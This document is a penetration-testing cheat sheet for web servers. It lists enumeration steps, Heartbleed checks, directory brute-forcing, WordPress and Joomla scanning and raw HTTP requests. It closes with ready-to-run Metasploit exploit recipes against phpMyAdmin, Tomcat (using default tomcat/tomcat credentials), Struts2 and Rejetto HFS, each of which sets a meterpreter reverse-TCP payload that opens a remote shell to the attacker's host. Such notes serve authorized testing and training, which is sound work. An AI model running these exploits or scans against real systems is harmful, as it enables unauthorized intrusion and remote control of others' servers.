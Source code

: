 # HTTP(S)

## Enumeration
- [ ] inspect HTML code
- [ ] add the mapping between IP and hostname into the attacker machine host file.
	- [ ] access the webpage through the IP address over both port 80 and 443. 
	- [ ] access the webpage through the host name over both port 80 and 443. 
		• If they both result in the same page, then there is no hostname-based routing applicable.
- [ ] access port 80 over HTTP and HTTPS protocols. 
- [ ] access port 443 over HTTP and HTTPS protocols
- [ ] append /index.html and /index.php address.
	• If index.html resolves but index.php doesn't, then the website likely doesn't support PHP.
- [ ] check robots.txt

#### Heartbleed
	• OpenSSL 1.0.1 through 1.0.1f are vulnerable.
	• OpenSSL 1.0.1g is NOT vulnerable.
	• OpenSSL 1.0.0 is NOT vulnerable.
	• OpenSSL 0.9.8 is NOT vulnerable.
##### sslscan
```bash
sslscan [IP]:443
```

##### nmap
```bash
nmap -sV --script=ssl-heartbleed [IP]
```

##### sslyze
```bash
sslyze -h [IP] --heartbleed
```


### Web Directories
##### gobuster
```bash
gobuster dir -u http[s]://[IP]/[PATH] -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -o gobuster-results.txt -a "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.0.0 Safari/537.36" -e -k -l -s "200,204,301,302,307,401,403" -x "txt,html,php,asp,aspx,jsp"
```

feroxbuster
```bash
feroxbuster -u http[s]://[IP]/[PATH] -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -o feroxbuster-results.txt -H "User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.0.0 Safari/537.36" -k --status-codes 200,204,301,302,307,401,403 --extensions txt,html,php,asp,aspx,jsp
```

### CMS

#### CMS Explorer
```bash
cms-explorer -url http://[IP] -type [Drupal, WordPress, Joomla, Mambo]
```

#### wpscan

##### Vulnerable Plugins
```bash
wpscan --url http://[IP] --enumerate vp 
```

##### Vulnerable Themes
```bash
wpscan --url http://[IP] --enumerate vt
```

##### Users
```bash
wpscan --url http://[IP] --enumerate u
```

#### Joomscan
```bash
joomscan -u http://[IP] --enumerate-components
```


### Netcat
```bash
nc [IP] [port]
```

##### HEAD Request
```bash
HEAD / HTTP/1.0
Host: [IP]

```

##### OPTIONS Request
```bash
OPTIONS / HTTP/1.0
Host: [IP]

```

##### PROPFIND Request
```bash
PROPFIND / HTTP/1.0
Host: [IP]
Depth: 1

```

##### TRACE Request
```bash
TRACE / HTTP/1.1
Host: [IP]

```

##### PUT Request
```bash
PUT /test.txt HTTP/1.1
Host: [IP]
Content-Length: 11

Hello World
```

##### POST Request
```bash
POST /login.php HTTP/1.1
Host: [IP]
Content-Type: application/x-www-form-urlencoded
Content-Length: 13

user=admin
```


### Metasploit

##### wordpress_login_enum
```bash
use scanner/http/wordpress_login_enum
set RHOSTS [IP]
set TARGETURI /wp-login.php
run
```

##### dir_scanner
```bash
use scanner/http/dir_scanner
set RHOSTS [IP]
set TARGETURI /
set PATHS /admin/,/login/,/backup/
run
```

##### http/ssl
```bash
use scanner/http/ssl
set RHOSTS [IP]
set RPORT 443
run
```

##### cms_ident
```bash
use scanner/http/cms_ident
set RHOSTS [IP]
set TARGETURI /
run
```


---
---


## Exploitation

### Metasploit

##### phpmyadmin_preg_replace
```bash
use exploit/unix/webapp/phpmyadmin_preg_replace
set RHOSTS [IP]
set TARGETURI /phpmyadmin/
set PAYLOAD php/meterpreter/reverse_tcp
set LHOST [IP]
run
```

##### tomcat_mgr_upload
```bash
use exploit/multi/http/tomcat_mgr_upload
set RHOSTS [IP]
set HTTPUSERNAME tomcat
set HTTPPASSWORD tomcat
set TARGETURI /manager/html
set PAYLOAD java/meterpreter/reverse_tcp
set LHOST [IP]
run
```

##### struts2_content_type_ognl
```bash
use exploit/multi/http/struts2_content_type_ognl
set RHOSTS [IP]
set TARGETURI /struts2-showcase/index.action
set PAYLOAD java/meterpreter/reverse_tcp
set LHOST [IP]
run
```

##### rejetto_hfs_exec
```bash
use exploit/windows/http/rejetto_hfs_exec
set RHOSTS [IP]
set RPORT 80
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST [IP]
run
```
